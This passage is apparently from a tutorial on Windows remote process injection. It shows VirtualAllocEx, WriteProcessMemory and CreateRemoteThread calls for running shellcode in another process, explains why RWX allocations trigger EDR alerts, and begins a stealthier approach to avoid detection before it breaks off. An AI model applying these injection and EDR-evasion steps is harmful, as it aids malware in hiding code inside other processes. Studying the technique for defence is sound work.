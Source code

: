 
##### Step 3: Try to execute it
```c
   CreateRemoteThread(hProcess, NULL, 0, hRemoteMem, NULL, 0, NULL);
   // 💥 CRASH! Access violation!
```


##### Problem
The memory was allocated with `PAGE_READWRITE`, which means the CPU can read from it and write to it, but when the thread tries to execute instructions from that address, the MMU blocks it - the page isn't marked executable!


#### A Feasible-but-Flawed Solution


##### Step 1: Allocate executable+writable memory

```c
hRemoteMem = VirtualAllocEx(hProcess, NULL, size, MEM_COMMIT, PAGE_EXECUTE_READWRITE);
   // RWX: Read, Write, AND Execute all at once
```

##### Step 2: Write shellcode
```c
   WriteProcessMemory(hProcess, hRemoteMem, shellcode, size, NULL);
```

##### Step 3: Execute

```c
   CreateRemoteThread(hProcess, NULL, 0, hRemoteMem, NULL, 0, NULL);
   // ✓ Works!
```


##### Problem
Since the memory is now marked as `PAGE_EXECUTE_READWRITE`, the MMU no longer has any issue with the request to execute the code, so it won't get in the way any longer. However, `PAGE_EXECUTE_READWRITE `pages are extremely rare in legitimate programs - they're a hallmark of exploits: **inject code, then run it**. So while the MMU won't have any issues, any **modern EDR will immediately flag RWX allocations**.



#### The Better Approach

#####  Step 1: Allocate writable memory

```c
   hRemoteMem = VirtualAllocEx(hProcess, NULL, size, MEM_COMMIT, PAGE_READWRITE);
```


##### Step 2: Write shellcode while memory is writable

```c
   WriteProcessMemory(hProcess, hRemoteMem, shellcode, size, NULL);
```

